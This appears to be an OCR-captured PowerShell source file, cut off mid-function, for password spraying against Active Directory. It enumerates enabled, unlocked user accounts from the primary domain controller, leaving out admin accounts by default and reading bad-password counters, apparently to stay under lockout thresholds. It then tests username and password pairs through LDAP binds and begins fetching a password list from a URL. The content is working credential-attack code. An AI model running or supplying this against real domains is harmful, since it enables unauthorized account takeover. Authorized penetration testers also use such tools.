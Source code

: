 ```
# Method to retrieve the user objects from the PDC
Function Get-UserObjects
{
    # Get domain info for current domain
    Try {$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()}
    Catch {Write-Verbose "No domain found, will quit..." ; Exit}
   
    # Get the DC with the PDC emulator role
    $PDC = ($domainObj.PdcRoleOwner).Name

    # Build the search string from which the users should be found
    $SearchString = "LDAP://"
    $SearchString += $PDC + "/"
    $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
    $SearchString += $DistinguishedName

    # Create a DirectorySearcher to poll the DC
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    $Searcher.SearchRoot = $objDomain

    # Select properties to load, to speed things up a bit
    $Searcher.PropertiesToLoad.Add("samaccountname") > $Null
    $Searcher.PropertiesToLoad.Add("badpwdcount") > $Null
    $Searcher.PropertiesToLoad.Add("badpasswordtime") > $Null

    # Search only for enabled users that are not locked out - avoid admins unless $admins = $true
    If ($Admins) {$Searcher.filter="(&(samAccountType=805306368)(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    Else {$Searcher.filter="(&(samAccountType=805306368)(!(admincount=1))(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    $Searcher.PageSize = 1000

    # Find & return targeted user accounts
    $userObjs = $Searcher.FindAll()
    Return $userObjs
}

# Method to perform auth test with specific username and password
Function Perform-Authenticate
{
    Param
    ([String]$username,[String]$password)

    # Get current domain with ADSI
    $CurrentDomain = "LDAP://"+([ADSI]"").DistinguishedName

    # Try to authenticate
    Write-Verbose "Trying to authenticate as user '$username' with password '$password'"
    $dom = New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
    $res = $dom.Name
    
    # Return true/false
    If ($res -eq $null) {Return $false}
    Else {Return $true}
}

# Validate and parse user supplied url to CSV file of passwords
Function Parse-Url
{
    Param ([String]$url)

    # Download password file from URL
```